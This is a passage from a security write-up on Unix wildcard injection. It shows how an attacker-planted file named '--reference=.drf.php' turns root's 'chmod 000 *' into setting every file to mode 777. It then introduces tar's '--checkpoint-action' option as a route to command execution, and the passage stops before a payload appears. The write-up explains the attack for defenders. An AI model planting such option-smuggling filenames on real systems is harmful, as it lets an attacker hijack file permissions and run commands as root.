 Superuser will now try to set mode 000 on all files.

```none
[root@defensecode public]# chmod 000 *
```

Let's check permissions on files...

```none
[root@defensecode public]# ls -al
total 68
drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
-rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
-rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
-rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
-rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
-rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
-rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
-rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
-rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
-rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
-rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
-rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
-rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php
```

What happened? Instead of 000, all files are now set to mode 777 because of the '--reference' option supplied through file name..Once again,file .drf.php owned by user 'leon' with mode 777 was used as reference file and since --reference option is supplied, all files will be set to mode 777. Beside just --reference option, attacker can also create another file with '-R' filename, to change file permissions on files in all subdirectories recursively.

### Tar arbitrary command execution
  
Previous example is nice example of file ownership hijacking. Now, let's go to even more interesting stuff like arbitrary command execution. Tar is very common unix program for creating and extracting archives. Common usage for lets say creating archives is:

```none
[root@defensecode public]# tar cvvf archive.tar *
```

So, what's the problem with 'tar'? Thing is that tar has many options,and among them, there some pretty interesting options from arbitrary parameter injection point of view. Let's check tar manual page (man tar):

```none
--checkpoint[=NUMBER]      : display progress messages every NUMBERth record (default 10)
--checkpoint-action=ACTION : execute ACTION on each checkpoint
```

There is '--checkpoint-action' option, that will specify program which will be executed when checkpoint is reached. Basically, that allows us arbitrary command execution.

Check the following directory:
